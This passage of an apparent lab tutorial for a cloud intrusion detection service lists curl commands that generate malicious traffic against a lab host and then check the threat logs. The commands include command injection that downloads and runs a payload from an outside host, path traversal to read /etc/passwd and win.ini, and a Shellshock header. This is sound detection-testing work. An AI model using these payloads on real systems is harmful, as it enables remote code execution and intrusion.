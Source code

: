     <img src="images/attacker_login.png" alt="attacker_login.png"  width="700" />


2. Generate malicious traffic with the following curl commands. 

    ```
    curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
    curl http://192.168.11.20/?item=../../../../WINNT/win.ini
    curl http://192.168.11.20/eicar.file
    curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
    curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
    ```

3. Go to **Cloud IDS → Threats** to view the threat logs.
